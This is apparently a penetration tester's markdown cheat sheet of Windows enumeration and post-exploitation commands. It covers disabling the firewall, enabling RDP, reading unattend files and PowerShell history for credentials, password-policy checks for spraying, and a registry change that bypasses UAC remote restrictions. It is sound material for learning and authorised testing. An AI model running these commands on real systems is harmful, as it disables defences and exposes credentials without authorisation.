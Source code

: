 # Windows Enumeration Tips

## Net Commands
[Windows Net Commands](./net-commands.md)
 
 ## Searching files with dir
 ```
 [@swisskyrepo] https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
 
 dir /S /B filename*.txt
 ```

## Get Passrod Policy for Spraying
```
net accounts
```


 ## Map Drive from CLI
 ```
 net use f: \\10.10.14.49\files /user:ph0enix password123
 net use M: \\ip-address\share /Persistent:Yes
 ```

 ## Copy File to Mapped Drive
 ```
 cp <filename> f:\ 
 (or location)
 ```

 ## Enable/Disable Windows Firewall CLI
 ```
 NetSh Advfirewall set allprofiles state on
 NetSh advfirewall set allprofiles state off
 ```

 ## Enable RDP (Terminal Services)
 ```
 reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
 ```

 ## Mount a VHD Drive
 - ```--add`` is the name of the file
 ```
 mkdir /mnt/vhd
 sudo guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro -v /mnt/vhd
 ```

 ## Extend Trial License
 ```
 slmgr.vbs -rearm
 ```

 ## Unattended Windows Installations
 ```
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
 ```

## Checking PowerShell History
Powershell.exe does not recognize or use the %% reference, so need to use env variables

```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt (cmd.exe)
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt (powershell.exe)
```

## Disable LocalAccountTokenFilterPolicy 
If you are in the Backup Operators group, if/when you login via WinRM you wont have any administrative privilges.  To fix this
We need to elevate privileges via UAC, which is not possible through CLI, so we need to disable the registry setting

```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```